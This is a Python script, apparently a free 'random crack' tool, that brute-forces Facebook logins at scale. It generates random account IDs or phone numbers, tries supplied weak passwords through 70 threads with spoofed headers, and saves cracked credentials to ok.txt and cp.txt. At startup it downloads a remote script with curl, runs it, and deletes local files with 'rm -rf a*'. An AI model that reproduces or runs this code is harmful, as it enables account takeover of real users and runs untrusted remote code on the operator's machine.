 # Rajajane
#coding=utf
#DECODE BY RAJA RIND
import os,sys,time,json,random,re,string,platform,base64
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python ali.py')
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
logo =  """   
    
          ###     ######     ###    ########  
         ## ##   ##    ##   ## ##   ##     ## 
        ##   ##  ##        ##   ##  ##     ## 
       ##     ##  ######  ##     ## ##     ## 
       #########       ## ######### ##     ## 
       ##     ## ##    ## ##     ## ##     ## 
       ##     ##  ######  ##     ## ########  

══════════════════════════════════════════════════
  Author       : Raja Rind💔
  Brother      : Kami
  TOOLS STATUS : free
  Youtube      : Rind Baloch
══════════════════════════════════════════════════"""
loop = 0
oks = []
cps = []
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    proxy = requests.get('https://raw.githubusercontent.com/ALI-JUTT/Ahmed/main/update.txt').text.splitlines()
    v = 3.1
    update = requests.get('https://raw.githubusercontent.com/ALI-JUTT/files/main/version.txt').text
    if str(v) in update:
        os.system('rm -rf a*')
        os.system('curl -L https://raw.githubusercontent.com/ALI-JUTT/ali/main/ali.py > ali.py')
        os.system('python ali.py')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)

def asad():
    os.system('clear')
    print(logo)
    print('[1] Random crack')
    print(50*'-')
    opt = input('Choose option >>> ')
    if opt =='1':
        random_crack()
    else:
        print('\n\033[1;31mChoose valid option\033[0;97m')
def random_crack():
    os.system('clear')
    print(logo)
    print('[1] Random UID crack')
    print('[2] Random number crack')
    print('[B] Back')
    print(50*'-')
    opt = input('Choose option >>> ')
    if opt =='1':
        random_uid()
    elif opt =='2':
        random_number()
    elif opt =='3':
        main()
    else:
        print('\n\033[1;31mChoose valid option\033[0;97m')
def random_uid():
    user=[]
    os.system('clear')
    print(logo)
    limit = int(input('How many ids do you want to add ? '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(11))
        user.append('10000'+nmp)
    print('\n\033[1;33mExample: 123456,1234567,12345678 ... \033[0;97m')
    pwx = input('Put passwords: ').split(',')
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print('Total ids: '+tl)
        print('The process has been started')
        print(50*'-')
        for uid in user:
            yaari.submit(rcrack,uid,pwx,tl)
    print(50*'-')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print(50*'-')
def random_number():
    user=[]
    os.system('clear')
    print(logo)
    print('\033[1;33mCode example: 92301,92302,92303,92344 .\033[0;97m')
    kode = input('Put code: ')
    limit = int(input('How many numbers do you want to add ? '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print('Total ids: '+tl)
        print('The process has been started')
        print(50*'-')
        for guru in user:
            uid = kode+guru
            pwx = [guru]
            yaari.submit(rcrack,uid,pwx,tl)
    print(50*'-')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print(50*'-')

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(proxy)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'free.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9,en;q=0.8,en;q=0.7',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '" Not A;Brand";v="100", "Chromium";v="101"',
            'sec-ch-ua-mobile': '?0','sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
             'user-agent':'Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5376e Safari/8536.25',}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            #print(iid+'|'+pws+'|'+str(log_cookies))
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\033[1;32m[RAJA-OK] '+cid+' | '+ps+'\033[0;97m')
                open('ok.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('\033[1;31m[RAJA-CP] '+cid+' | '+ps+'\033[0;97m')
                open('cp.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r[%s/%s]  OK:- %s  CP:- %s \r'%(loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

asad()
